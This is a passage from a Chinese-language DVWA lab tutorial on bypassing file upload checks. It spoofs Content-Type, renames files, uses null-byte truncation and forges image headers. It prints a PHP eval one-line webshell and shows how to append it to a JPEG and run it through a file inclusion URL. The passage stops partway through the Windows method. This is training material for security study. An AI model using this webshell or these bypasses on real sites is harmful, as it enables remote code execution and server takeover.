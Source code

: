 1.可以开启拦截上传文件，在请求数据包中修改 `Content-Type` 为指定的文件类型，如 `Content-Type: image/jpeg` （用于绕过文件类型检测）

2.可以修改文件名后缀为 jpg ，开启拦截在请求数据包中修改 `filename="webshell.jpg"` 为 `filename="webshell.php"` （避免上传文件无法执行）

3.通过特殊符号绕过后缀名校验

> php 5.2 可利用 00 截断（hello00.jpg）

## 3 基于 DVWA 的 High 级别演示文件上传漏洞

**限制文件后缀名为 jpeg 或 png，并且是有效图片（可以查看）**

1.若是只是普通校验后缀名和文件头标识符，在代码中首部插入文件头，修改后缀即可（后缀修改参考 Medium ）

FF D8 FF（jpg 的文件头）

```
FF D8 FF
<?php @eval($_POST[xuegod]);?>
```

2.若严格校验后缀名，需要将 payload 植入到正常的图片文件中，上传后通过利用文件包含漏洞（可将 payload 写入 UA，目标会保留到日志中）加载图片中的代码执行

例如：在 File Inclusion 中 

```
http://192.168.1.76/DVWA/vulnerabilities/fi/?page=file1.php
```

> 这个网站在   ` File Inclusion` 中会执行 `file1.php` 文件

**在 linux 中制作图片马**

在 kali 中制作一句话木马

```
┌──(root㉿Kali-24)-[~]
└─# cat webshell.php                        
<?php @eval($_POST[xuegod]);?>
```

上传一个普通的图片文件

```
┌──(root㉿Kali-24)-[~]
└─# ls
webshell.php  xuegod.jpg
```

将木马文件追加到图片中

```
┌──(root㉿Kali-24)-[~]
└─# cat webshell.php >> xuegod.jpg
```

> 此时可在文件末尾看到 payload 代码

**在 windows 中制作图片马**

使图片文件和木马文件在一个文件夹下，在此文件夹下打开 cmd
